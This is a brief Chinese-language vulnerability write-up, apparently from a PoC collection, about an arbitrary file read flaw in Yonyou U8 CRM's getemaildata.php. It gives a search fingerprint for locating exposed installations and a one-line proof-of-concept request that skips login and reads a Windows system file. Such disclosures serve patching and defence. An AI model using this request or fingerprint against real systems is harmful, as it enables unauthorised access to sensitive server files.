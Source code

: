 # 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件读取漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取到服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>用友 U8 CRM客户关系管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="用友U8CRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1680525831431-a143a41a-f89e-4132-913f-0f0e8858628c-20230812123820985.png)

验证POC

```plain
/ajax/getemaildata.php?DontCheckLogin=1&filePath=c:/windows/win.ini
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691568204155-1b46ce98-e317-4318-9fb3-f2bcad3b0988.png)